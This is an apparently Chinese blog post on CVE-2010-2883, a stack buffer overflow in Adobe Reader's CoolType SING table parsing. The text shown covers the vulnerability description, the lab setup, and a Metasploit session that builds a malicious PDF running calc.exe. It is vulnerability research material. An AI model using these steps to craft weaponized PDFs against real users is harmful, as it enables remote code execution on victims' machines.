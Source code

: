 ```yaml
---
layout: post
title:  "CVE-2010-2883 Adobe CoolType SING 表栈溢出漏洞"
image: ''
date:   2018-04-13 00:06:31
tags:
- cve
- overflow
description: ''
categories:
- cve
---
```


- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
- [参考资料](#参考资料)


## 漏洞描述
Adobe Reader 和 Acrobat 9.4 之前版本的 CoolType.dll 中存在基于栈的缓冲区溢出漏洞。远程攻击者可借助带有 TTF 字体的 Smart INdependent Glyphlets (SING) 表格中超长字段的 PDF 文件执行任意代码或者导致拒绝服务。


## 漏洞复现
| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Windows XP SP3 | 体系结构：32 位 |
| 调试器 | OllyDbg | 版本号：吾爱专版 |
| 反汇编器 | IDA Pro | 版本号：6.8 |
| 漏洞软件 | Adobe Reader | 版本号：9.3.4 |

我们利用 Metasploit 来生成攻击样本：
```
msf > search cve-2010-2883
   Name                                            Disclosure Date  Rank   Description
   ----                                            ---------------  ----   -----------
   exploit/windows/fileformat/adobe_cooltype_sing  2010-09-07       great  Adobe CoolType SING Table "uniqueName" Stack Buffer Overflow

msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf exploit(windows/fileformat/adobe_cooltype_sing) > show info

msf exploit(windows/fileformat/adobe_cooltype_sing) > set payload windows/exec 
payload => windows/exec

msf exploit(windows/fileformat/adobe_cooltype_sing) > set cmd calc.exe
cmd => calc.exe

msf exploit(windows/fileformat/adobe_cooltype_sing) > set filename cve20102883.pdf
filename => cve20102883.pdf

msf exploit(windows/fileformat/adobe_cooltype_sing) > exploit 
[*] Creating 'cve20102883.pdf' file...
[+] cve20102883.pdf stored at /home/firmy/.msf4/local/cve20102883.pdf
```
